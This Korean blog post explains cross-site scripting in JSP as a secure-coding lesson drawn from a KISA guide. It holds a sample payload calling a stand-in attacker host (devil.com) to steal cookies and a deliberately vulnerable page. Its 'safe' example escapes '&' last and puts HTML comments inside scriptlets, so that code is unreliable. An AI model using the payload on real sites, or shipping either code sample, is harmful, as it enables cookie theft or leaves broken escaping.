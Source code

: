 ```yaml
---
title: 크로스 사이트 스크립트
author: dejavuhyo
date: 2021-09-14 06:00:00 +0900
categories: [Language, Java]
tags: [cross-site-scripting, 크로스-사이트-스크립트]
---
```


## 1. 정의
크로스 사이트 스크립트(Improper Neutralization of Input During Web Page Generation, Cross-site Scripting)는 웹 페이지에 악의적인 스크립트를 포함해 사용자 측에서 실행되게 유도할 수 있다.

예를 들어 검증되지 않은 외부 입력이 동적 웹 페이지 생성에 사용될 경우, 전송된 동적 웹 페이지를 열람하는 접속자의 권한으로 부적절한 스크립트가 수행되어 정보 유출 등의 공격을 유발할 수 있다.

![cross-site-scripting](/assets/img/2021-09-14-cross-site-scripting/cross-site-scripting.png)

## 2. 안전한 코딩 기법

* 일반적으로는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 ```<, >, &, "``` 등을 replace 등의 문자 변환 함수나 메소드를 사용하여 ```&lt, &gt, &amp, &quot```로 치환한다.

* HTML 태그를 허용하는 게시판에서는 게시판에서 지원하는 HTML 태그의 리스트(White List)를 선정한 후, 해당 태그만 허용하는 방식을 적용한다.

* 보안성이 검증된 API를 사용하여 위험한 문자열을 제거하여야 한다.

## 3. 예제
다음의 예제는 외부 입력을 name 값으로, 특별한 처리 과정 없이 결과 페이지 생성에 사용하고 있다. 만약 악의적인 공격자가 name 값에 다음의 스크립트를 넣으면, 희생자의 권한으로 attack.jsp 코드가 수행되게 되며, 수행하게 되면 희생자의 쿠키 정보 유출 등의 피해를 주게 된다.

예) ```<script>url = "http://devil.com/attack.jsp;"</script>```

* 안전하지 않은 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>

    <body>
        <h1>XSS Sample</h1>
        <%
        <!- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        %>
        <!-- 외부로 부터 받은 name이 그대로 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

다음의 예제와 같이 외부 입력 문자열에서 replaceAll() 메소드를 사용하여 ```<```와 ```>``` 같이 HTML에서 스크립트 생성에 사용되는 모든 문자열을 ```&lt;, &gt;, &amp;, &quot;``` 같은 형태로 변경함으로써 악의적인 스크립트 실행의 위험성을 줄일 수 있다. 그러나 이러한 방법이 위험성을 완전히 저거 했음을 의미하지는 않는다.

* 안전한 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    
    <body>
        <h1>XSS Sample</h1>
        <%
        <!-- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        
        <!-- 외부의 입력값에 대한 검증을 한다. -->
        if ( name != null ) {
            name = name.replaceAll("<","&lt;");
            name = name.replaceAll(">","&gt;");
            name = name.replaceAll("&","&amp;");
            name = name.replaceAll("\"","&quot;");
        } else {
            return;
        }
        %>
        <!-- 외부 로 부터 받은 name에서 '위험 문자'를 제거한 후 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

## [출처 및 참고]
* <https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=>
